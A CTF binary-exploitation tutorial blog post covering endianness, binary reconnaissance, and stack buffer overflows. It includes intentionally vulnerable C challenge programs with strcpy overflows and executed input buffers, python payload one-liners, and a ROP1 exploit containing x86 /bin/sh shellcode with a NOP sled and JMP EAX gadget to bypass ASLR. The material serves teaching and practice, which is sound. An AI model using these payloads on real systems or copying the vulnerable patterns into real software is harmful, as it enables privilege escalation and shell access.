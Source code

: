 ```yaml
---
layout: post
title: "Learning from CTF: Binary Exploitation"
date: 2014-11-09 20:42:01 +0000
comments: true
categories: 
---
```

This post (Work in Progress) lists the tips and tricks while doing Binary Exploitation challenges during various CTF's.
<!-- more -->

<ol>
<li>
Big-endian systems store the most significant byte of a word in the smallest address and the least significant byte is stored in the largest address. Little-endian systems, in contrast, store the least significant byte in the smallest address.
<br>
{% img left /images/big-endian.png 250 250 %}
{% img right /images/little-endian.png 250 250 %}
</li>
<br><br><br><br><br><br><br><br><br>
<li>When you get a binary for exploitation, we need to find whether it is 32-bit or 64-bit ELF, which platform it is running, whether any buffer overflow prevention techniques has been used, what is EIP offset.
<ul>
<li>Executable binary is running on whether x86 or x86-64. (uname -a)</li>
<li>Whether the binary is compiled for 32 bit or 64 bit (file binary_file)</li>
<li>Buffer overflow prevention techniques such as RELRO, NoExecute (NX), Stack Canaries, Address Space Layout Randomization (ASLR) and Position Independent Executables (PIE) can be found by running <a href="http://www.trapkit.de/tools/checksec.html">Checksec Script</a>. This script is present in <a href="https://github.com/longld/peda">gdb-peda</a>.</li>
<li>Whether the stack of binary is executable is not can be found by readelf tool. IF Program header GNU_STACK has RWE flag, if it has E flag, it's executable.</li>
</ul>
</li>

<li>Sometimes, you need to know the address of the variable, inorder to write arbitary value in to it. run gdb <program>, p &<variablename>. For example, below you need the address of secret to write the new value 0x1337beef.
``` C
unsigned secret = 0xdeadbeef;

int main(int argc, char **argv){
    unsigned *ptr;
    unsigned value;
    char key[33];
    FILE *f;
    printf("Welcome! I will grant you one arbitrary write!\n");
    printf("Where do you want to write to? ");
    scanf("%p", &ptr);
    printf("Okay! What do you want to write there? ");
    scanf("%p", (void **)&value);
    printf("Writing %p to %p...\n", (void *)value, (void *)ptr);
    *ptr = value;
    printf("Value written!\n");
    if (secret == 0x1337beef){
        printf("Woah! You changed my secret!\n");
        printf("I guess this means you get a flag now...\n");

        f = fopen("flag.txt", "r");
        fgets(key, 32, f);
        fclose(f);
        puts(key);
        exit(0);
    }
    printf("My secret is still safe! Sorry.\n");
}
```</li>

<li>In another challenge below, It can be easily seen the value of secret can be changed after entering 16 characters + 0xc0deface. As, 0xc0deface can't be printed as ASCII characters, you can use python to pass the input.
```
python -c ' print "A" * 16 + "\xc0\xde\xfa\xce"' or python -c ' print "A" * 16 + "\xce\xfa\xde\xc0"' based on the endianess of the system.
```
``` C
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    int secret = 0;
    strcpy(buf, input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```</li>

<li>Controlling the EIP:
In the below challenge, an attacker can use a buffer overflow to take control of the program's execution. the return address for the call to vuln function is above buf on the stack, so it can be overwritten with an overflow. this allows an attacker to put nearly any address they desire in place of the return address. in this example, the goal is to call the give_shell function.
<ul>
<li>We need to find the address of give_shell function which can be done either by using gdb and print give_shell or objdump -d outputfile | grep give_shell.</li>
<li>To know the EIP offset, you can use cyclic patterns. Use  pattern_create.rb and pattern_offset.rb So pattern_create.rb 100 for instance will create a 100 byte cyclic pattern.</li>
<li>then you feed this as your input to the vulnerable program and it wil crash. so get the value of EIP at that point.</li>
<li>Then, we just need to pass the input to the program by ./a.out $(python -c ' print "A" * Offset + "Address of give_shell in hex"' )</li>
</ul>
``` C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    strcpy(buf, input);
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```</li>

<li> Execute Me:
If you check the below code, getegid() function shall return the effective group ID of the calling process., setresuid() sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process.

If you see, read function read the stdin into the buffer and (function_ptf) buf() function is called which would call anything in the buffer.
<ul>
<li>We should first check that executable binary is running on whether x86 or x86-64. (uname - a)</li>
<li>Then, we should check whether the binary is compiled for 32 bit or 64 bit (file <binary file>)</li>
<li>Since, buf will execute anything, we need a shell code to fit in 128 bytes, There are plenty of shellcode (with different platforms and different working)which can be found on <a href="http://shell-storm.org/shellcode/">Shell-Storm</a>.</li>
<li>Then, we just need to pass the input to the program by ./a.out $(python -c ' print "A" * Offset + "Address of give_shell in hex"' )</li>
</ul>

``` C
#include <stdio.h>
#include <stdlib.h>

int token = 0;

typedef void (*function_ptr)();

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv){
    char buf[128];

    be_nice_to_people();

    read(0, buf, 128);

    ((function_ptr)buf)();
}
```</li>


<li> ROP1: This binary is running on a machine with ASLR! (Address space layout randomization (ASLR) is a computer security technique involved in protection from buffer overflow attacks.) Can you bypass it?

<ul>
<li>
From the code provided we can see that there’s a buffer overflow in the vuln() function due to the strcpy() call.  run the program within gdb and see what the state of the registers and the stack are at the time of the crash.
</li>
<li>From the cylic patterns tools, we could find that offset is at 76 which could be confirmed by providing a input of 76 “A”s and 4 “B”s to overwrite EIP. set a breakpoint after the call to strcpy(); that is *vuln+24. After the leave instruction is executed, EIP will be set to 0x424242.</li>
<li>EAX points to our buffer of “A”s and since the binary doesn’t have the NX bit, we can execute shellcode on the stack. To bypass ASLR, we just need to find an address that will do a JMP/CALL EAX and set that as our return address. msfelfscan can find a list of instructions to accomplish this:
</li>
<li>Since the binary is compiled for 32 bit, searching the shellcode in Shellstorm for Linux_x86 executing /bin/sh, we get 21 bytes shellcode by kernelpanic.</li>
<li> As EAX contains the 76*A + BBBB when the vuln function returns, we just need to find address which will execute JMP EAX, it can be found by msfelfscan -j eax binary_file</li>
<li>One more small but important observation is the number of NOPs, as our shellcode is 21 bytes and offset is 76 bytes and jmp is 4 bytes. So, 76 - 21 - 4 = 51.</li>
``` Python
import struct
code = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
jmpeax = struct.pack("<I",0x080483e7)
print "\x90"*51 + code + jmpeax

```
</ul>
``` C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

void vuln(char *name){
    char buf[64];
    strcpy(buf, name);
}

int main(int argc, char **argv){
    be_nice_to_people();
    if(argc > 1)
        vuln(argv[1]);
    return 0;
}
```</li>
</ol>
